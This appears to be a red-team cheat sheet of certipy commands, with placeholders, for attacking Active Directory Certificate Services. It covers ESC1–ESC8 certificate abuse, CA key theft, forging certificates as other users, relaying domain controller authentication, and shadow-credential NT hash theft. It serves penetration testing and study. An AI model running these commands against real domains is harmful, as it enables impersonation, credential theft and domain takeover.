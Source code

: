 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy find <domain>/<user>:'<password>'@<dc-ip> 
```

## certipy - request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -template <template> -ca <certificate-authority>
```

## certipy - request previously issued certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -retrieve <csr-id> -ca <certificate-authority>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file>
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -backup
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -alt <targeted-user>
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -template <template> -ca <certificate-authority> -alt <targeted-user>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req <domain>/<user>:'<password>'@<ca-ip> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template <domain>/<user>:'<password>'@<ca-ip> -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca <domain>/<user>:'<password>'@<ca-ip> -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-ip>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-ip> -template 'DomainController'
```

## certipy - Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto <domain>/<user>:'<password>'@<dc-ip> -account <targeted-user>
```